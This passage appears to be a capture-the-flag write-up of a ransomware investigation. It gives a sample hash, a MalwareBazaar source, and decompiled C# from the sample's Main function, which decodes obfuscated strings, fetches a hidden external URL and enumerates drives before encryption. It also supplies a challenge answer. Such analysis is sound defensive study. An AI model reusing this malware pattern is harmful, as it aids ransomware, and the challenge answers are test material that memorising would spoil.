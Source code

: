 > Another way to get the key is to reverse engineer the malware.
{: .prompt-info }

Using the `f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789` from question 23, we can download the malware from <https://bazaar.abuse.ch/> and open it up in [dnspy](https://github.com/dnSpy/dnSpy#:~:text=dnSpy%20is%20a%20debugger%20and,Main%20features%3A&text=NET%20and%20Unity%20assemblies), a .Net debugger.

```csharp
private static void Main()
 {
  List<string> list = new List<string>();
  WebClient webClient = new WebClient();
  string text = "/\u001b\u0015\u0011R~]pi^UTF`CviVUN\u00120\u001f!(\u001c>\u0002\t=\u0016,\u0018\v\u0004>\u0018\u007f\u0006;3";
  string text2 = text;
  string edhcLlqR = text2;
  string text3 = "GoaahQrC";
  string text4 = text3;
  string vnNtUrJn = text4;
  webClient.DownloadString(oymxyeRJ.CajLqoCk(edhcLlqR, vnNtUrJn));
  foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
  {
   string name = driveInfo.Name;
   string text5 = "2w\u0015";
   string text6 = text5;
   string edhcLlqR2 = text6;
   string text7 = "qMIamfMA";
   string text8 = text7;
   string vnNtUrJn2 = text8;
   if (!name.Equals(oymxyeRJ.CajLqoCk(edhcLlqR2, vnNtUrJn2)))
   {
    list.Add(driveInfo.Name);
   }
  }
```

From dnspy, right-click on the executable and select the go-to entry point.
we can find the main function and see that `string text3` variable is being passed around to decrypt the external url.

### 24. What is the ISP that owns that IP that serves the text file?

**amazon**

This can be found from the previous Virustotal results.

<https://www.virustotal.com/gui/file/f2e3f685256e5f31b05fc9f9ca470f527d7fdae28fa3190c8eba179473e20789/relations>

### 25. The ransomware check for extensions to exclude them from the encryption process. What is the second extension the ransomware checks for?
